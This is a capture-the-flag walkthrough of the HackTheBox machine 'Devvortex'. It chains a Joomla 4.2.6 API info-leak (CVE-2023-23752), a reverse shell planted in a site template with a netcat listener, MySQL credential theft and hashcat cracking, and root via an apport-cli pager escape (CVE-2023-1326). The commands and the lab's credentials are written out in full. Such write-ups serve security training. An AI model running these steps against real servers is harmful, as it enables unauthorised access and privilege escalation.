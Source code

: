 # Devvortex

Devvortex is a easy machine on HTB.

## Enumeration

First we check the open port via **nmap**.

![nmap](./assets/images/nmap.png)


The ports 22, 80 are open.
Let's check the port 80 first. For that we need to add the **domain** to our **hosts** file.

```bash
echo "10.10.11.242   devvortex.htb" | sudo tee -a /etc/hosts
```
![website](./assets/images/website.png)


This is what you should see after browsing to the domain. It seems like a basic website. Let's perform some **web discovery**.

![ffuf](./assets/images/ffuf.png)

Nothing here! Let's check if there is some unknown **subdomains**

![subdomain](./assets/images/subdomain.png)

And we found the **dev** subdomain! So lets browse to it, `http://dev.devvortex.htb`. Don't forget to add it to your hosts file.

```bash
echo "10.10.11.242   dev.devvortex.htb" | sudo tee -a /etc/hosts
```

![dev_website](./assets/images/dev_website.png)

Another subdomains found means we need to redo some web discovery on it.

![ffuf_dev](./assets/images/ffuf_dev.png)


We can see a **administrator** page, and if we check it we can see a login page powered by **Joomla**. If we can obtain the version in use for the website it will be perfect. And i have found [this](https://www.itoctopus.com/how-to-quickly-know-the-version-of-any-joomla-website) website who explain how to find a the version of a Joomla website !
So go to `/administrator/manifests/files/joomla.xml`

![joomla_version](./assets/images/joomla_version.png)

## Foothold

So the version is `4.2.6` and after a little research we found the [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752). So the vulnerability is an improper access check allows **unauthorized access** to webservice endpoints. And so if we make a get request to the api endpoint we pight get confidential information. Per exemple at this url `/api/index.php/v1/config/application?public=true`, so let's test it with curl!

```bash
curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
```

![joomla_cred](./assets/images/joomla_cred.png)

So let's login as `lewis:P4ntherg0t1n5r3c0n##`

![joomla_website](./assets/images/joomla_website.png)

And we are in! Now if we go to `System->Site Templates->Cassiopeia Details and Files` we can see the templates of the site and we can modify them. So maybe we can manage to execute a rev shell if we edit the file and add some php code. I will use the **Pentestmonkey's reverse shell** here. So copy/paste it into a php template. Per exemple `error.php`, save the file and now you want to setup a netcat listener (replace "1234" by the port in your revshell).

```bash
nc -lvnp 1234
```

And we must curl the php file so the server execute our code.

```bash
curl "http://dev.devvortex.htb/templates/cassiopeia/error.php/error"
```
![revshell](./assets/images/revshell.png)

## User flag

And we have a connection as the user `www-data`! Now we need to get some information about the system. But if we use the command `ss -tlpn` we can see a mysql database. We have a user/password cred so we can try to login as `lewis:P4ntherg0t1n5r3c0n##`. But first we need to stabilize the shell.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo; fg
```
Now we can connect to the database.

```bash
mysql -u lewis -p
```
![mysql](./assets/images/mysql.png)

And in `joomla->sd4fg_users` we found another user `logan`. And with a hash for the password. So copy/paste the hash in a file a we will use `hashcat` to break it.

```bash
hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt
```

And at the end we crack it! Now we can log with `logan:tequieromucho`. And we can find the flag in is home directory.

![user_flag](./assets/images/user_flag.png)

## Root flag

After we log in check if logan as permissions to execute something with root right.

```bash
sudo -l
```

And it can use the `usr/bin/apport-cli` with the sudo command. And with the `-v` option we can get the version of the script which is `2.20.11`. And after some research this version of `apport-cli` is vulnerable to privilege escalation with the [CVE-2023-1326](https://nvd.nist.gov/vuln/detail/CVE-2023-1326). So if we launch apport-cli to follow a process via it's `PID` and add the option to `file-bug` we can exploit that less is used for the default pager and input `!/bin/bash` to have a shell as root.

```bash
ps -ux
```

Take a pid of one process, and execute this command

```bash
sudo apport-cli -P 2113 -f
```

Press Y to pass the multiple question and choose view report. Now you can type `!/bin/bash`!

![root_flag](./assets/images/root_flag.png)